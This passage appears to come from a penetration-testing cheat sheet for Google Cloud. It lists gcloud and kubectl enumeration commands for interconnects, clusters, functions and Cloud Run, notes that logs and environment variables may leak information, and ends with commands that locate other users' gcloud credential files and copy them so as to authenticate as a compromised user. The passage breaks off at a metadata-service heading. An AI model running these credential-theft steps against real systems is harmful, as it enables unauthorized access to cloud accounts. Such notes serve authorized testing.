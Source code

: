 ```bash
gcloud compute interconnects list
```

#### Containers

```bash
gcloud container clusters list
```

GCP Kubernetes config file ~/.kube/config gets generated when you are authenticated with gcloud and run:

```bash
gcloud container clusters get-credentials <cluster name> --region <region>
```

If successful and the user has the correct permission the Kubernetes command below can be used to get cluster info:

```bash
kubectl cluster-info
```

#### Serverless

GCP functions log analysis – May get useful information from logs associated with GCP functions

```bash
gcloud functions list
gcloud functions describe <function name>
gcloud functions logs read <function name> --limit <number of lines>
```

GCP Cloud Run analysis – May get useful information from descriptions such as environment variables.

```bash
gcloud run services list
gcloud run services describe <service-name>
gcloud run revisions describe --region=<region> <revision-name>
```

Gcloud stores creds in ~/.config/gcloud/credentials.db
Search home directories

```bash
sudo find /home -name "credentials.db
```

Copy gcloud dir to your own home directory to auth as the compromised user

```bash
sudo cp -r /home/username/.config/gcloud ~/.config
sudo chown -R currentuser:currentuser ~/.config/gcloud
gcloud auth list
```

### Metadata Service URL
